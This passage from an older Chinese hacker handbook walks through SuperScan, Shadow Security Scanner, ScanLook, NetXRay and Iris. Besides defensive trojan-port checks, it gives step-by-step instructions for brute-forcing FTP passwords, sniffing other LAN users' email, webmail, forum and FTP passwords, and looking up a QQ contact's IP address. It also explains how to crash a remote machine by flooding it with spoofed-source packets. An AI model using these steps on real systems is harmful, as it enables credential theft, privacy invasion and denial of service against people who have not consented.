自从 BO 出现以后，国内最有影响的是冰河木马，然后出现很多功能类似的木马，比如：网络神偷、NetBull 等。针对木马，现在有很多清除工具；除了一般的杀毒软件以外，还可以使用专门清除木马的 TheCleaner（下载：http://person.longcity.net/home2/efocus/aqgj-index.htm）等软件。如果只是对木马的检测，我们完全可以用 SuperScan 来实现，因为所有木马都必须打开一定的端口，我们只要检测这些特定端口就可以知道计算机是否被种植木马。

在主界面选择【Port list setup】，出现端口设置界面，点击【Port list files】的下拉框，选择一个叫 trojans.lst 的端口列表文件（图2-4-8）。这个文件是软件自带的，提供了常见的木马端口，我们可以使用这个端口列表来检测目标计算机是否被种植木马。

图2-4-8

需要注意的是，木马现在很多，没多久就出现一个，因此有必要时常注意最新出现的木马和它们使用的端口，随时更新这个木马端口列表。关于木马端口，可以参考以下网址：

http://person.longcity.net/home2/efocus/aqzl/wlaq-dklb.htm

#### 四、总结

SuperScan 功能强大，但是在扫描的时候，一定要考虑到网络的承受能力和对目标计算机的影响。同时，不管目的如何，扫描都必须在国家法律法规允许的范围内进行。

## 2.5 黑客法宝SSS应用指南

### 一、SSS简介

Shadow Security Scanner 是一个功能非常强大的黑客工具。由俄罗斯著名程序员 Redshadow 和 Microsoft 合作编写。程序功能强大，包括端口探测、端口 banner 探测、CGI/ASP 弱点探测、Unicode/Decode/printer 探测、*nix 弱点探测、(pop3/ftp) 密码破解、拒绝服务探测、操作系统探测、NT 共享/用户探测……而且对于探测出的漏洞，有详细的说明和攻击方法。程序的主界面如图2-5-1所示，类似 FrontPage 的操作界面，感觉很亲切。左边的按钮有 Scanner（用来扫描主机）、Password Checks（用来破解密码）、DoS Checks（用来探测对方是否可以 DoS）、Base SDK（可以自己定义漏洞）。SSS 除了对于探测 NT 表现出色，对于 *NIX，它也能够探测出不少漏洞。

#### 二、实例演示

点击左上角的 New Scan Session 按钮，我们可以开启一个新的扫描项目。出现选择扫描计划对话框，我们在这里选择 Complete Scan，即完全扫描（图2-5-2）。

图2-5-1  
图2-5-2

按 Next，输入扫描注释，继续 Next。出现“Edit Host”对话框。在这里边可以选择要扫描的主机，可以选择某一台主机（用 Add Host 按钮），或者扫描一个 IP 范围（Add IP Zone）。在这里我们选择 Add Host，输入一个演示地址，选择 Done，完成本次的探测设置。将会出现如图2-5-3所示的界面。

接着，我们右键单击刚才添加的主机，在弹出的菜单中单击 Start Scan。我们可以观察到状态栏中的数字在变化，说明已经开始扫描了（图2-5-4）。

扫描过程中，我们可以点击右边蓝色区域中的栏目，然后在下方获得详细的注释。对于端口，会提示图2-5-3　图2-5-4

对此端口的功能、Banner 信息、所允许使用的一些操作命令；对于漏洞，会提示你关于此漏洞的 CVE 报告编号、漏洞描述、如何修补这个漏洞等等。比如这里一个关于 22 端口的描述：

```text
FTP Servers: FTP Bruteforce
Port: 22
Description FTP Server vulnerable bruteforce operations.
Risk Level: Medium
How To Fix: Update FTP Server or set Limit for USER/PASS if FTP Server supported this option or install other FTP Server.
CVE GENERIC-MAP_NOMATCH
```

- 图2-5-5　状态栏将显示当前正在扫描什么项目
- 图2-5-6　点击相应的端口给出注释

图2-5-5　图2-5-6

对于对方是 NT 系统，SSS 还会探测它的共享以及用户，以便于你的进一步探测。

以上只是 SSS 的一个功能。SSS 除了具有强大的扫描功能，还具有强大的密码扫描功能和 DOS 探测功能。首先我们来看一下它的密码扫描功能：图2-5-7 密码扫描选择对话框。

光看到弹出的选择扫描类型对话框，就足以让你对其佩服万分。它可以进行多达 8 种密码破解功能。我们先来看看它的 FTP 密码破解功能：选择 FTP，输入 Host IP，单击 Next；下一个对话框你可以选择开启的线程数。线程数多则速度快，而正确度就低了，反之亦然。对于 MODEM，建议选择 50 个线程。“Auto Suspend if failed to connect to port”也建议你选中，以避免对方已经关机，你还在这里穷扫 ^_^。下一个对话框中，我们要设置字典。它提供了三种方式：其一，你可以选择用户名文件和字典文件；其二，可以输入一个固定的用户名并选择一个密码文件；其三，你可以使用用户名和密码在一起的字典，格式为 username:password。

在这里，我们选择它的第二个功能，并输入用户名：administrator。选择好字典，按 Next。然后将出现密码扫描的界面。按 Start 开始扫描，状态中将报告你现在的扫描速度、已经破解的密码、所需时间等等。已经破解的密码将出现在下面的列表中。图2-5-8 密码扫描过程。

图2-5-7  
图2-5-8

解密功能介绍到这里，再让我们来看看它强大的 DOS 探测功能。其实探测等于攻击 ^^。单击左边的 DOS checks 按钮，出现第一个对话框，让你选择探测方法。其中提供了 5 种选择。你可以选择其中的一个，进入下一步，输入对方的 IP，选择需要使用的线程数，按 Next，接下来就进入了和密码探测一样的界面。其中按 Start 就可以开始对对方机器进行 DOS 了。

#### 三、其他功能概述

在 Base SDK 中可以自定义漏洞，这就增加了 SSS 的可扩展性。Tools 菜单中的 Reports 可以生成一个扫描报告，这样你可以方便地看到扫描的结果。Options 中可以设置线程数、超时时间以及色彩、音效等等内容。Policies 对话框可以让你自定义一些扫描规则，比如只探测 ASP 漏洞，或者探测端口和 CGI 漏洞等等。

#### 四、下载事项以及最新功能

SSS 可以在 http://www.rsh.kiev.ua/ 下载，其中还有作者编写的其他一些非常不错的工具。最新版本为 3.39。如果你需要一个可以无限制使用的 SSS，可以到 http://www.seceye.com 下载。提供的版本为 3.37，但已经包括了最新的 .idq、.printer 等等漏洞的探测。

#### 五、Plug-ins 的下载

SSS 提供了可以装配的一些 Plug-ins。下载地址为 http://www.rsh.kiev.ua/pluginse.htm ，但是目前由于 SSS 功能非常强大，所以好像网页上大多是 ShadowScan（作者的另一个作品）的 Plug-ins。

### 2.6 ScanLook 使用详解

现在的扫描工具越来越趋向于“专”，尽量关注系统或者网络的一个方面进行突破，这比那些大而全的庞大工具更加受到使用者的欢迎。ScanLook 也是这样一款工具。如果以传统眼光来看这款软件，可能它不算很好，因为它没有专注做一件事。它的功能有以下几方面：

- a. IIS 已知漏洞扫描；包括 Unicode 漏洞、.Printer 漏洞等；
- b. CGI 漏洞扫描；
- c. 端口扫描；
- d. Ping 功能；
- e. 共享扫描功能；
- f. IPC 密码猜解功能；
- g. QQ 攻击功能。

看了以上一些功能，确实，它太散，没有鲜明特点。但是，对于一个网络检测者来说，这些其实不是最主要的，因为我们只要关注几项功能：IIS 和 CGI 漏洞扫描功能、共享扫描功能和端口扫描功能，这是我们最需要的。其它我们就不管了。

#### 一、软件下载

这款软件是 DOS 命令行工具，这对于习惯 WINDOWS 的用户可能不是很方便。但是，我们应该慢慢习惯这种使用方式，因为很多功能强大的检测软件都是 DOS 命令行工具。这可能也是对一个网络人员最起码的要求吧。

软件最新版本可以到以下网址下载：  
http://person.longcity.net/home2/efocus/aqgj-index.htm  
下载以后，解压到任何目录即可。

#### 二、软件使用

这款软件功能不是很集中，我们挑选最常用的功能。

##### 1. IIS 和 CGI 漏洞扫描功能

尽管这一类的工具不少，但是仔细想想，我们只要几个漏洞的扫描功能就可以了。受红色代码、蓝色代码、尼姆达的影响，现在大部分系统都已经加上至少 Service Pack 5 的补丁；所以，以前的一些很老的漏洞已经没有扫描的必要，关注最新的漏洞是一条不变的法则。

而最新、最容易被管理员忽视的，可能就是这几个漏洞：Unicode、Printer 漏洞。这样的好处就是扫描的速度很快，不浪费时间。因为这款软件很新，可能也注意到这个问题。现在我们看具体使用。

命令行扫描工具，我们先来看看命令格式：

```text
ScanLook 起始IP 结束IP -IIS -CGI 端口号 -log "文件名"
```

ScanLook 可以扫描一段网址的 IIS 和 CGI 漏洞，同时可以指定扫描端口，一般就是 80 和 8080，软件默认 80。如果需要保存扫描结果，可以指定一个文件名，软件默认为：result.txt。

现在我们来扫描一台服务器的 80 端口，同时扫描 IIS 和 CGI 漏洞，结果保存到叫 log.txt 的文件（图2-6-1）：

图2-6-1

在以上的命令中，我们要注意几点：

- 1）扫描 IP 可以是一组也可以是一个；但是由于软件的原因，如果这一组 IP 中有一个不能 ping 到，可能这一次扫描就自动结束。所以建议一次扫描一个 IP。
- 2）注意空格的书写；可能扫描了几次，发现没有 log.txt 文件存在。为什么？就是要求在 -log 后面有一个空格；同样，在 -port 后面也要有一个空格。

图2-6-2

其实就是在 log.txt 前面加一个“>”，和 DOS 命令差不多。

##### 2. 端口扫描

端口扫描功能是我们最常用的，工具也很多。ScanLook 自带一个端口文件，包括一些常见的服务和木马端口。当然，我们也可以自己指定相应端口来检测。先来看命令格式：

```text
ScanLook x.x.x.x -scanport 端口
```

如果填写端口号，直接扫描提供的端口；  
如果没有填写端口号，扫描端口 port 文件定义的端口。

现在我们检测一台服务器的 80 端口情况（图2-6-3）：

图2-6-3

我们看到，该服务器已经打开 80 端口。在这里注意一点：参数是 -ScanPort 而不是 -Port。如果我们需要扫描一组端口，那么可以从一个端口列表文件读取所有端口进行扫描。现在我们扫描一台服务器的端口（图2-6-4）：

图2-6-4

以上界面我们扫描了目标服务器的一些端口，这些端口在 ScanLook 文件夹的 Port 端口文件中定义。不同的需求，我们可以采用不同的端口。软件自带的端口比较少，只有一些常见的服务和比较老的木马端口，建议参考这个文件来重新设置端口：

http://person.longcity.net/home2/efocus/aqz/wlaq-dklb2.htm

##### 3. 共享扫描

共享扫描也是我们遇见比较多的问题。往往一个系统什么漏洞都没有，因为有一个很负责的管理员，但是却发现有完全共享；而且这种情况即使没有在服务器上出现，在企业内部往往也出现这种情况。在内部网的时候，大家共享文件；换到互联网，却又忘记取消共享。当内部网的管理员还在为防火墙怎样设置而烦恼的时候，眼皮底下却出现完全共享。所以，每天对网络进行共享扫描是有必要的，特别是对资料比较多的部门更加要注意。

ScanLook 提供共享扫描功能，命令格式如下：

```text
ScanLook "x.x.x.x -net_view"
```

现在我们扫描一台计算机，看看是否有共享（图2-6-5）：

图2-6-5

可以看到，软件检测到有共享，但是没有列出共享目录！不知道是软件的问题还是我的 WinME 的问题。

##### 4. 其他功能

软件还有其他功能，比如 QQ 攻击功能，但是只能攻击 710 版本。这些可以在帮助文件里面找到使用方法，这里就不细说了。

## 二、总结

ScanLook 扫描速度快，可惜有一些小问题，希望作者可以更加完善，同时注意升级，使软件更加完美。

### 2.7 倚天屠龙谁与争锋——NetXRay 简介与应用

NetXRay 是由 Cinco Networks 公司研发的一款用于高级分组检错的网管软件。它可提供分组获取和译码的功能，可用图形方式明了地显示：网络中哪里正出现严重的业务拥塞；其强大的功能可以让网管们随时监控网络的各种状态，维持网络的正常运行。NetXRay 就像一把锋利的“屠龙刀”，正义之士用它来行侠仗义，邪恶之徒用它来为所欲为！今天，就让我们来走进 NetXRay，通通透透地了解这把网络屠龙宝刀！

#### 一、NetXRay 应用场合

目前，大家的上网方式无非是两种：一是在家拨号上网，另一种是局域网方式，如网吧、单位、学校等，炒得铺天盖地的宽带网也大多采用局域网方式。在前一种方式中，NetXRay 能看到你和哪台机器建立了连接，交换了什么数据，你和对方的 IP 地址和端口等所有细节；在后一种方式中，只要连接设备是 HUB，你就能监听到网络中任何机器之间交换的数据（即使对方没有和你建立连接），这下你的机会来了。如果你是网管，通常可将 Sniffer 类（NetXRay 就是 Sniffer 的一种）软件装在服务器上，服务器又连到 Internet，这样，整个局域网其他机器在 Internet 上所做的一切网管都能监听到。

#### 二、NetXRay 基本用法

先把 NetXRay 和其汉化补丁下载下来吧。安装和汉化完成后（注意：汉化要手动选择好正确路径），第一次使用会让你选择想监听的网络设备，以后可在软件主界面选择“Tools”菜单中的“Select Network Probe/Adapter”（网络探测器/适配器）项。如果机器既有网卡（连接到本地局域网），也有 Modem（连接到 Internet），那么查看局域网的数据选择网卡，查看 Internet 的连接选择 Modem。通常机器只有一种联网设备，可以不用选择该项。

查看 IP 地址，选择主界面“Tools”菜单的“Host Table”（或点击工具条中的“Host Table”按钮）。

在弹出的 Host Table 界面（图2-7-1）的下部有 3 个选项卡：MAC、IP 和 IPX。MAC 是网卡的物理地址（48 bit）；理论上讲，世界上任意两块网卡的 MAC 都不同；IPX 是一种网络协议。这些都不管它，点击 IP 选项卡，可以看到网络中所有主机的 IP 地址，其中有一个是你机器的 IP 地址。

Host Table 左侧最上面的 4 个按钮，分别是 IP 地址的各种显示方式，有详细的、表格的、柱状图、饼状图等。选中最上面的“轮廓”按钮，再点击 IP 地址前面的小电脑标识，可选中某个 IP 的机器，再按下“Capture”按钮，就开始捕捉那台机器的数据。在“Capture”菜单的“End And View”项中，可查看已经捕捉的数据。

想使用仪表板，选择“Tools”菜单中的“Dashboard”。它是一个性能量测器，可提供分组获取和译码的功能；它还提供了图形功能，可以确切地指出在你的网络中哪里正出现严重的业务繁忙。在 Dashboard 面板中（图2-7-2），有 3 个指示网络运行情况的指标，以供分析网络用：第一个表示当前网络上的流量，每秒多少个包；第二个表示网络的利用率；第三个是网络数据包的错误情况，非常直观。

#### 三、用 NetXRay 查 QQ 好友 IP 地址

##### 1. 在 QQ 中查别人的 IP 地址

现在，许多人都在使用 QQ。如果你想知道某人的 IP 地址，用 NetXRay 将非常方便。以下介绍 3 种方法。

方法一：运行 NetXRay，在菜单中选取“Tools”→“Matrix”，弹出如图2-7-3所示画面；选择画面下端的“IP”标签，按右键，在弹出的菜单中选中“Show Select Nodes”（图2-7-4）；打开 QQ 和你想查的人聊上一句，同时观察窗口，在数据包发送的那一瞬间颜色有变化的数据线，就是你和他之间的 IP 连线。

看看数据线的另一头，那个 IP 地址（61.138.121.18）就是你梦寐以求的东西（图2-7-5）。

图2-7-4  
图2-7-5

方法二：首先运行 NetXRay，然后选取“Tools→Capture”，之后会弹出一个窗口（图2-7-6），点击菜单“Capture→Start”，给你要查的人发个信息；然后选择“Capture→End And View”，这时又弹出了一个窗口，窗口的底部有 5 个选项，你选第二个“Matrix”试试！是不是变了一个窗口？在下拉式菜单中选择 IP，大功告成了，看到 IP 连线了吗？连线一头是你的 IP，另一头就是你想查的人的 IP。注意：和别人的 IP 连线应该是浅绿色的。

图2-7-6

方法三：在菜单中选取“Tools→Host table”，这时会出现图2-7-1所示窗口，在底部有 3 个选项，选其中的“IP”，因为你想查的是 IP 嘛！此时窗口又变了。看到很多 IP 了吗？如果你打开网站的话，在内容框里就会出现很多协议，其中有 other、http、ICMP、DNS。如果你要看 IP，就把注意力集中在 other 协议里，那里应该有很多 IP 吧？记住：最重要的就是给对方发一个信息过去啊！

概述：若查看 QQ 上某人的 IP 地址，你随便发一句话给他，不管有没有把你加为好友，他的 IP 立即会显示在上面。如果 IP 地址太多、搞不清的话，关了其他程序只开 QQ 即可。

用这种方法还可以查木马，就是看一下这些 IP 中有没有不熟悉的非法连接。例如我关了所有的程序，只开着蚂蚁，就可以看到蚂蚁的那个广告条有一个连接，它的 IP 就在上面。

#### 四、用 NetXRay 捕获数据包

仅用 NetXRay 来查看 IP 地址，未免有点大材小用了；用它来捕获数据包才是最精彩的，这也是 NetXRay 最出色的功能。再次说明：如果你是拨号上网，只能捕获你和对方机器所交换的数据包；如果是局域网方式并且用交换机的话，也只能看到和你建立连接的机器交换的数据和一些广播数据，除非你把它装在连接到 Internet 的服务器上。如果用局域网方式并且使用 HUB 的话，NetXRay 能捕获网中的任何数据，这是 HUB 这类硬件的广播性质所决定的，任何人都改变不了。我们可以用 NetXRay 清楚地看到局域网内各主机间的通信情况，可以看到哪台机器正和哪台机器正在通信，并且可以清楚地看到哪台机器正在发出信息（发出信息的时候线条将会闪动），还可以看到网内是否有滥用 IP 发生。

如果已选择了对象，选“Tools”菜单中的“Capture”项，调出 Capture 面板。面板上从左至右依次为开始、结束、结束和查看、查看、捕捉设置 5 个按钮，如图 6 所示。按第一个按钮开始捕获数据，如果有数据传送的话，下面的指针会转动：第一个指针表示包的数量，第二指针表示缓存的使用情况；按“View”或“End And View”按钮，可以看到已捕获的数据包。如果你在一个使用 HUB 的局域网中，则不仅可以看到本机发送和接收的数据包，还可以看到其他机器互相通信的数据包！

抓取这些数据包除了对学习 TCP/IP 协议有用外，还可以做很多事情。先解释一下什么叫做明文传送：两台机器通信时，若传送的数据为 A，在传送过程中始终以 A 传送，叫做明文传送；如果传送 A 数据时，先用某种算法转化为 B，以数据 B 进行传送，接收的计算机再由 B 反算出 A，这叫加密传送。由此可以看出，对于加密传送，即使我们得到了传送的数据 B，如果不知道其加密算法，也无法知其内容。QQ 就是加密传送的，所以即使我们捕获了对话的数据包，通常也不知道它的真实内容。不过 QQ 的加密不太彻底，在数据包中可以看到断断续续的未加密内容。由于现在使用明文的协议还非常多，比如收发邮件、FTP、Telnet、新闻组等，所以还是可以看到数据包中很多东西的。

#### 五、用 NetXRay 捕获数据包应用实例

##### 1. 捕获 OE 发送的信箱名和口令

- (1) 在局域网中的任何一台机器上运行 NetXRay（注意：局域网使用交换机的话，NetXRay 必须在服务器上运行），点击“Capture”面板的“Capture Setting”按钮，选择“Advance Filter”选项卡，点击“IP->TCP”项，将其展开，进行过滤设置。如果没有设置过滤，NetXRay 捕获的数据包会非常多，不利于分析结果。由于 OE 接收邮件只使用 POP 协议，所以除了 POP 协议外，其他协议全部选中（选中的协议 NetXRay 就会过滤掉），如图2-7-7所示。

在“Packet Size”（信息包尺寸）部分，选择 ALL（默认就是它），你也可以根据需要来设置信息包的长度、信息包里数据的位置（起始字节位置和结束字节位置）以及显示为 16 进制或 ASCII 样式等。在 NetXRay 上还可以对信息数据包的大小设置如小于、等于、大于等逻辑关系。

- (2) 在局域网内任意机器上用 OE 收发邮件。

- (3) 收信结束后，回到运行 NetXRay 的机器，点击 Capture 面板中的“End And View”信息按钮，查看捕获的数据，能看到收发邮件双方所使用的 IP 地址和端口号。在图2-7-8中仔细查找，你还能看到刚才用 OE 收发信件的信箱和口令。

- (4) 用 OE 收发邮件不安全，用 Foxmail 会安全吗？同样不安全，NetXRay 也能捕获！这是由于 POP 协议是采用明文传送的结果，其他 Email 软件也一样。

图2-7-8

## 2. 捕获Web信箱口令

通过浏览器直接登录网站的 Web 方式收信，能不能捕获口令呢？

- 1. 在局域网内的任何一台机器运行 NetXRay，在选择过滤时，除了 HTTP 协议不选外，其他的所有协议都选中过滤掉。这是因为浏览器使用 HTTP 协议。点击“开始捕获”按钮进行捕获。
- 2. 到局域网上的另外一台机器上登录网站，输入用户名和口令进入信箱。
- 3. 在运行 NetXRay 的机器上，点击 Capture 面板上的“End And View”按钮，仔细看，仍然无法逃脱 NetXRay 的控制。

##### 3. 捕获通过网页发送的信息

对于捕获通过网页发送的信息也很容易，以论坛的用户名和口令为例。

- 1. 在一台机器上运行 NetXRay，同样设置除 HTTP 外过滤掉其他所有的协议并开始捕获。
- 2. 在另一台机器上输入用户名和口令，登录论坛。
- 3. 回到运行 NetXRay 的机器，查看捕获的信息，同样可以找到用户名和口令。

采用类似的方法，我们可以用同样方法捕获 FTP 口令，只不过过滤时排除了 FTP 协议，过滤掉其他的协议。总之，只要是明文传送的数据都逃不掉。

以上只是 NetXRay 的常规用法，你还可自制和发送 IP 包。对信息包的结构比较熟悉的用户可选择工具菜单中的信息包制造项，自己写入信息包的内容，然后发送给对方；高级用户可以通过给对方发送一些特殊的数据包达到攻击的目的。下面我们就简单谈谈这个问题。

## 六、用NetXRay对远程机器进行攻击

利用 NetXRay 还可以对远程机器发动攻击，使目标机器网速及系统变慢导致死机。虽然我们不想说这个，但知己知彼，才能百战不殆，所以对这种攻击方法还是有所了解为好。

在 NetXRay 中点击“Tools→Packet Generator”，会出现如图2-7-9所示窗口，在这里你可以设置向一台远程机器发送信息包。点击第三个按钮，会出现一个名为“Send new packet”对话框，点击“Size”可以设置信息包的大小，在“Send”中可以选择是循环发送还是发送指定的次数。信息包的数据是16进制的样式。另外，还有一个解码（Decode）部分让你选择。选择完毕，点击“确定”，然后再点击第一个按钮来发送。如果点击第三个按钮，还可以选择把你刚刚截获到的信息数据包发送出去。在这里建议大家要慎用该功能。在我们的测试中，曾使一台远程机器死机数次。但是如果操作不正确的话，也有可能把自己搞下线，所以这里只有你自己去琢磨了。

图2-7-9

用 NetXRay 也可以对一台远程服务器发起伪装攻击，这就需要高级用户来测试了。而且现在很多服务器面对此类的攻击根本就是不堪一击。你可以照着上面所说的方法生成一个比较正常的信息数据包，类似于几个 Ping 之类的就足够了，再用 FTP 或者 Telnet、Gopher 等方式连接到你所要攻击的目标机器，之后发送这个信息数据包给它，然后再用 NetXRay 把它截获下来。接着修改这个数据包，找到 Source IP 的那个 offset，把它改成随便一个 IP，“美国”“白宫”的主机 IP 都成。接着找出关于校验和的地址，改好校验和，最后把这个信息数据包复制起来，再发送给目标机器。由于 NetXRay 发送信息数据包时的速度非常快，一秒钟可以发出几千个，所以用不了多少时间，就可以让这台机器死上几回。当然，这还要看那台倒霉机器的承受能力。

以上提到的仅仅是 NetXRay 众多功能中的几个特例，更多的应用还需要大家来挖掘。如果你想试试 NetXRay 的强大威力，可以到以下地址 http://www.sycatv.net/ftp/ftp2/net/NetXRay.ZIP 下载。

## 2.8 Iris使用详解——基础篇

大家都知道嗅探器吧。嗅探器的英文写法是 Sniff，可以理解为一个安装在计算机上的窃听设备。它可以用来窃听计算机在网络上所产生的众多信息。简单一点解释：一部电话的窃听装置，可以用来窃听双方通话的内容，而计算机网络嗅探器则可以窃听计算机程序在网络上发送和接收到的数据。早在 Win95 时代就有一个叫做 NetXRay 的嗅探器，拥有这个软件，网络管理员（或是黑客）可以对经过自己计算机的网络数据包进行监听或者编辑。不过这个软件有个缺陷，就是不再支持 Win2K 系统。许多原来用 NetXRay 嗅探器的朋友就在网上询问什么软件可以做 Windows 的嗅探器。下面我给大家介绍一个叫做 Iris 的 sniff 软件。

### 一、安装Iris

- 系统要求：
  - 笔者使用的是 IRIS 3.6 版，以下也是参照这个版本而写。大家可以在 http://www.xfocus.net/download.php?id=275 得到，或者到软件的网站上下载（http://www.eeye.com/iris/），大小 3.7MB。
- 软件环境：
  - Windows 95/98/NT/2000
  - Internet Explorer 4.x and comctl32.dll version 5.00 或者更高
  - 或者 Internet Explorer 5.x
- 最小安装：
  - Pentium 166，32MB RAM，1GB HDD
- 推荐安装：
  - Pentium 400，128MB RAM，10GB HDD
- 额外推荐：
  - 系统使用最新的 service packs、补丁程序和 Internet Explorer。
  - 拥有一块支持以太网络的网络适配器。

在网络的什么位置可以安装 Iris：

- 1. 在你的网络边缘，例如交换机和路由器之间。
- 2. Switches break sniffers，你不可以在交换机组成的网络安装。因为交换式网络对于 sniffer 有一定的免疫，所以你不会得到任何其他主机的数据。不过有些特殊端口的数据将会被所有主机得到，在这种情况下你可以进行嗅探。
- 3. 安装在你的防火墙上。安装两个 Iris 在你的防火墙的前端和后端，随时监视数据包的情况，可以保护你的防火墙。
- 4. 安装在共享式集线器组成的网络中。这是传统的安装地点，例如你有三个网络端口，其中你的主机安装了 Iris，另外两个端口的信息你就可以用 Iris 得到。

执行安装：  
由于软件不是免费版本，所以我们需要得到注册码。到网站上去注册，或者通过别的途径得到注册码都可以。我们一路回车就可完成安装。

### 二、使用Iris监视网络

我们假设是默认安装，点击开始 > 程序 > Iris，选择点击 Capture > Start（Ctrl-A）。我们开始截获我们网络中的数据包。如图2-8-1所示：

图2-8-1

### 一、配置Iris

在 Iris 中有很多选项需要用户配置，众多的选项配置主要目的就是使得用户得到自己想要的数据包，过滤掉不想要的协议和关键字。

图2-8-2

我们打开 Tools > Settings，选择指定模式进行配置。当你配置好了，点击 OK 进行确定。

- 1. Capture（捕获）

如图2-8-2所示：

##### 表1

| 选项 | 功能描述 |
|---|---|
| Run continuous | 当缓冲区溢出时，Iris 将覆盖原来的数据包。 |
| Stop capture after filling buffer | 当缓冲区溢出时，Iris 将停止进行数据包截获，并停止记录。 |
| Load this filter at startup | 导入过滤文件并应用。这样我们可以看到命令行方式的调试。 |
| Scroll packets list to ensure last packet visible | 一般选中，使用这种模式可以使截获数据包后，软件会记住以前的数据包并且不删除。 |
| Use Address Book | Iris 将会使用 Address Book 来保存 MAC 地址，软件会记住 MAC 地址和网络主机名。IP 会被解释成 NetBIOS 名字。 |

- 2. Decode（解码）

如图2-8-3所示：

图2-8-3

##### 表2

| 选项 | 功能描述 |
|---|---|
| Use DNS | 使用域名解析。 |
| Edit DNS file | 使得域名解析本地化，使用这个选项可以编辑本地解析文件。 |
| HTTP proxy | 使用 HTTP 代理服务器，编辑端口号，默认为 80 端口。 |
| Decode UDP Datagrams | 使得解码报文转 UDP 协议。 |
| Scroll sessions list to ensure last session visible | 选择这个选项使得最新截获的数据包显示在捕获窗口的最上。 |
| Use Address Book | 同 Capture 中的 Use Address Book。 |

- 3. Adapters（网络适配器）

如图2-8-4所示：  
选择你想从哪个网络适配器中截获数据。例如图中就是笔者的 TP-Link 网卡。

- 4. Guard（警报和日志选项）

如图2-8-5所示：

图2-8-4  
图2-8-5

##### 表3

| 选项 | 功能描述 |
|---|---|
| Enable alarm sound | 当发现合乎规则的数据包时发出警报声音。 |
| Play this wave file | 选择警报声音路径，声音格式是 `.wav`。 |
| Log to file | 启动日志文件。如果选中后，当符合规则的数据包被截获后将被记录并保存。 |
| Ignore all local connections | Iris 会通过本地的 IP 地址和子网掩码识别地址是否是本地地址。当这个选项不被选中后，Iris 会接受所有的数据包，不管数据是否来自本地。如果选中，将不接受本地网络的数据包。 |
| Ignore connections on these ports | 过滤指定端口（port），在列表中可以选择。 |
| Use software filter | 当此处被选中后，软件过滤方案会生效。当没有被选中后，软件将会接受所有的数据。值得注意的是，只有当 `Apply filter to incoming packets` 被选中后，`Use software filter` 才能使用。 |

### 5、Miscellaneous（杂项功能）

如图2-8-6所示：

图2-8-6

##### 表4

| 选项 | 功能描述 |
|---|---|
| Packet buffer size | 在缓冲区可以保存的数据包数量（默认值是 2000 个）。 |
| Stop when free disk space drops below | 当磁盘空间低于指定值时，Iris 将会停止捕获和记录数据。这个选项可以很有效地防止恶意用户进行对 Iris 的拒绝服务攻击。注意当 Decode 选项打开时，Iris 会建立一个临时文件夹进行记录，当我们退出软件后，文件才会删除。 |
| Enable CPU overload protection | 当 CPU 的占用率连续 4 秒钟达到 100% 时，软件将对计算机进行保护，即停止运行。等到恢复正常后才开始记录。 |
| Start automatically with Windows | 点击这里可以把 Iris 加入到启动组中。 |

### 二、使用日志列表

如图2-8-7所示：

图2-8-7

使用这个功能可以配置 Iris 在指定的时间捕获数据包，蓝色代表捕获，白色代表停止捕获。在上边的例子中我们可以清楚地看到，管理员指定 Iris 除了星期日，其他的时间里都处于运行状态。

### 三、使用数据包的截获功能

在数据包编辑区内，显示着完整的数据包。窗口分两部分组成，左边的数据是以十六进制数字显示，右边则对应着 ASCII。点击十六进制码的任何部分，右边都会显示出相应的 ASCII 代码，这便于我们进行分析。十六进制码是允许用户进行编辑再生的，你可以重写已经存在的数据包。新的数据包可以被发送，或者保存到磁盘中。

如图2-8-8所示：

图2-8-8

- 1. 数据包解码（Packet Decoder）

请看上图中的数据包分解区，在这里数据包根据 OSI 七层模型被分解成若干部分。每一个数据包的包头（MAC、IP、ICMP、TCP 和 UDP）将会在这里显示出来（如图2-8-9所示）。如果数据包编辑区也显示出来，数据包分解区将会和数据包编辑区协同，其中被选择的部分将会被红色标亮，以便区分。如果你想了解更多有关数据包的结构，请参看更多书籍。如果此区域被隐藏，请点击（图形文件：Capture.gif），选中其中的图钉就可以显示出来。

- 2. 捕获数据描述区（Capture Window）

这个区域可以描述出你所截获的数据包的收发地址、端口、协议等。你能选择每一个数据包点击右键来执行不同的命令。我们可以进行拖放、修改、删除、做标记等。如图2-8-10所示：

图2-8-9  
图2-8-10

我们用鼠标右键单击区域一，还可以调整捕获数据描述区的各类选项属性。

### 3. 数据包编辑区（Packet Editor）

这个区域可以在 Capture > Show Packet Editor 点击显示出来。我们选择一块区域点击右键，除了正常的 C&P 操作外，还有一个 Copy to C style 的选项，这个可以使十六进制的编码转化成 C 语言的形式，例如：`E8 B1 48 26 08`，Copy to C style 后得到 `\xE8\xB1\x48\x26\x08`。

在此区域的工具条上还有几个选项，其中（图形文件：pic_new.gif）是数据包生成和删除的选项。利用工具条的其他选项可以进行数据包的保存、更改、加入到列表和发送等操作。例如黑客想生成一个 TCP 数据包，首先点击（图形文件：pic_new.gif）生成一个空数据包，参照 RFC792 的数据包格式，使得每一部分都用十六进制表示法来表示。理解一下这个结构，我们先建立了一个包，假设它由 100 个字节长度（我们假设，20 个字节是 IP 信息，20 个字节是 TCP 信息，还有 60 个字节为传送的数据）。现在把这个包发给以太网，放 14 个字节在目的 MAC 地址之前，源 MAC 地址，还要置一个 `0x0800` 的标记，它指示出了 TCP/IP 栈后的数据结构。同时，也附加了 4 个字节用于做 CRC 校验（CRC 校验用来检查传输数据的正确性）。如图2-8-11所示：

图2-8-11

之后我们点击发送按钮（图形文件：pic_send.gif），IRIS 会出现如图2-8-12所示的窗口：

图2-8-12

功能如表5所示：

##### 表5

| 选项 | 功能描述 |
|---|---|
| Send Continuously | 发送器会一直发送你所选择的数据包，直到你点击 Stop。 |
| Send Number of Times | 选择你想发送的次数。 |
| Delay between packets | 设置连续两个数据包的相隔时间，单位是毫秒（ms）；如果这个选项设置成 0，那么 IRIS 会以最快的速度发送。 |
| Disable Loopback | 不接收你自己计算机发送的数据包。 |
| Send 和 Close | 发送和停止选项。 |

### 三、解码、重新构建捕获数据

看过这个部分我们可以做到：把数据包进行解码，可以很直观地看清楚截获的每一个会话（主要是 HTTP），就好像使用自己的会话一样。

##### 1. 解码概况

